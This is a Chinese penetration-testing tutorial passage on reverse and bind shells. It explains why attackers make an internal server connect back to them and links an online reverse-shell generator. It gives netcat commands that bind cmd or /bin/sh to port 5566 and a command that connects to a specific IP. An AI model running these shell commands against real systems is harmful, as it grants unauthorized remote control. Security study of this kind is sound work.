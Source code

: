 ### 实用案例2：反弹Shell命令-解决无数据回显和数据通讯问题

数据回显问题：渗透测试时，执行命令之后需要查看命令回显，但有时回显内容无法传回，比如在一个网页上向目标服务器注入命令，网页无法传回命令回显内容，这时就需要反弹shell。反弹shell就是让被攻击机主动连你，把命令行的输入输出转移到其它主机

数据通讯问题：由于NAT、防火墙安全策略等配置，攻击者想要向目标内网侧服务器传输数据是比较困难的，但内网侧服务器向外发送数据是比较容易的，此时可以使目标内网侧服务器反弹shell至攻击者，实现数据传输

> [反弹bash shell命令详解](https://www.cnblogs.com/pandana/p/16289320.html)
>
> 反弹shell(reverse shell)，就是控制端(攻击者所有)监听某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转发到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念上的客户端与服务端的角色反转。
>
> 就我个人对反弹shell的理解是：
>
> 在Linux中的shell是指一个面向用户的命令接口，也就是一个命令解析器。用户可以通过在shell上键入命令来达到操作主机的目的。正常情况下shell只能由主机的用户使用，但是反弹shell的目的则是将自己的shell反弹给别的主机，让别的主机可以通过shell来控制自己。
>
> **简言而知，就是将目标主机的标准输入、标准输出、错误输出全都重定向到攻击端上**

工具：nc，nc程序是Linux自带，Windows不自带需要自行下载(上传)

工具：[棱角社区反弹shell在线生成](https://forum.ywhack.com/shell.php)

![image-20250917235502667](https://img.yatjay.top/md/20250917235502727.png)

如下图所示内网环境，若攻击者需要和内网环境中的目标服务器通信，由于网络配置或安全策略限制，控制端无法主动连接到内网服务器，此时就需要内网服务器反弹shell

![image-20250918223531650](https://img.yatjay.top/md/20250918223531695.png)

#### 正向连接：本地监听等待对方连接

##### Linux主动控制Windows

绑定CMD到本地5566端口，即将cmd运行至本地5566端口并监听

```cmd
nc -e cmd -lvp 5566
```

![image-20250918223854585](https://img.yatjay.top/md/20250918223854624.png)

使用Linux主动连接目标主机的5566端口，即可控制Windows主机

```cmd
ncat 47.122.23.131 5566
```

![image-20250918224005100](https://img.yatjay.top/md/20250918224005160.png)

##### Windows主动控制Linux

绑定SSH到本地5566端口，即将bash运行至本地5566端口并监听

```cmd
ncat -e /bin/sh -lvp 5566
```
